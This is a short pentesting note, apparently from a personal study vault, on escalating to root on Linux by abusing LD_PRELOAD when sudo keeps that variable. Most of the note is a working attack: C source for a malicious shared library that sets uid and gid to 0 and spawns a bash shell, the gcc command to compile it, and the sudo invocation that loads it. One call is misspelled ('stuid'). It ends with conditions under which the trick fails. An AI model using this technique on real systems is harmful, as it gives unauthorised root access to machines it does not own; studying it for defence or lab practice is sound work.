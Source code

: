 `LD_PRELOAD` is used to specify a shared library `.so` that is charged before all the other libraries when a program is executed.

The idea is to create a custom shared library that contains a malicious code (*for example `system()`*) and the he can use `LD_PRELOAD` to charge this library when a program with `sudo` privilege is executed.


We start from:
```bash
sudo -l
```
- ![[Pasted image 20250116154802.png]]
- we can see `LD_PRELOAD`


# Create a malicious library

We create a `.c` file:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD"); //to unset this variable (avoid anomalies)
	setgid(0); //set our group as root
	stuid(0); //set our user as root
	system("/bin/bash");
}
```

Now we need to compile this file:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
- `-fPIC` is used to make the code  independent from the position, it is used for shared libraries
- `-nostartfiles` means that we don't need a enter point in our code (like `main`) so the start files are not necessary



At this point we can run any command or executable on which we have the `sudo` permission in this way:
```bash
sudo LD_PRELOAD=/FULL_PATH/shell.so COMMAND_OR_EXEC
```
- ![[Pasted image 20250116155738.png]]


## When we cannot do it?

1. When sudo ignores `LD_PRELOAD` (new updated system do that)
2. When the `LD_PRELOAD` is cleaned up form the program or the command is executed in a isolated env
3. When the system protects against it



